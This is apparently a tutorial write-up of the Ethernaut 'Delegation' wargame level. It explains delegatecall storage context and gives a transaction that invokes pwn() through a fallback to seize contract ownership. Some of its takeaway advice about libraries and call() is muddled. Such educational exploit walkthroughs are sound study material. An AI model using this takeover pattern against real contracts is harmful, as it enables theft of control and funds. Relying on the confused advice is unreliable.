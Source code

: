 # Ethernaut Level 6: Delegation Challenge Explained

## What is Delegatecall?

Delegatecall is a low-level function call in Ethereum that allows a contract to invoke functions from another contract while preserving its own context. This means that the calling contract's storage and its `msg.sender`, `msg.value` attributes remain the same even when a function from another contract is invoked.

```solidity
contract A {
    function callDelegate(address delegateAddress, bytes memory data) public {
        delegateAddress.delegatecall(data);
    }
}
```

## How does Delegatecall work?

When Contract A makes a delegatecall to Contract B, it allows Contract B to mutate its storage. This can lead to unintended consequences if Contract B is malicious or if the storage context is unsafe.

```solidity
contract B {
    uint public storageValue;

    function setStorageValue(uint newValue) public {
        storageValue = newValue;
    }
}
```

## The Challenge

In this challenge, you are required to claim ownership of the given instance. The Delegation contract makes a delegatecall to the Delegate contract. The Delegate contract has a function called `pwn()`, which changes the ownership of an `owner` variable to whoever invoked the function. Your task is to invoke this function and become the owner of the contract.

```solidity
contract Delegate {
    address public owner; // Occupies slot 0

    function pwn() public {
        owner = msg.sender; // Save msg.sender to slot 0
    }
}
```

## How to solve the challenge?

You can invoke the `pwn()` function by sending data in a transaction. This can be done using the Remix IDE or the console. Once you successfully invoke the function, you become the owner of the contract.

```solidity
// Invoke Delegation.sol’s fallback function
await sendTransaction({
    from: "0x1733d5adaccbe8057dba822ea74806361d181654",
    to: "0xe3895c413b0035512c029878d1ce4d8702d02320",
    data: "0xdd365b8b0000000000000000000000000000000000000000000000000000000000000000"
});
```

## Key Takeaways

It's important to use the higher-level `call()` function when inheriting from libraries, especially when you don't need to change contract storage and do not care about gas control. Also, when inheriting from a library intending to alter your contract’s storage, make sure to line up your storage slots with the library’s storage slots to avoid these edge cases. Always authenticate and do conditional checks on functions that invoke delegatecalls.

This challenge is a great way to understand the potential vulnerabilities associated with delegatecalls, which was a core issue in the $30M Parity hack.

